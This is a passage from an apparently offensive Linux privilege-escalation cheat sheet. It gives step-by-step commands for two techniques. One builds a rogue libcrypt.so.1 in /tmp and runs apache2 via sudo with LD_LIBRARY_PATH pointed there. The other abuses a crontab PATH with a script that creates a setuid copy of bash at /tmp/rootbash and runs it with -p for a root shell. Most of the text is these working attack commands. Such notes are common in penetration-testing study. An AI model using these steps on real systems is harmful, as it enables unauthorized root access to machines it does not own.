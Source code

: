 ```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

##### Step 6: Run Apache2 with `LD_LIBRARY_PATH`

Run `apache2` using `sudo`, while setting the `LD_LIBRARY_PATH` environment variable to `/tmp` (where the compiled shared object is located):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

## Crontab Path Variable

- If we get path variable in the crontab we can do the below process

1. At first create a file that has `.sh` extension and add the below payload to the file
#### Script
```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
2. `chmod +x /home/user/overwrite.sh`
3. `/tmp/rootbash -p`

- **And you will get the root!!**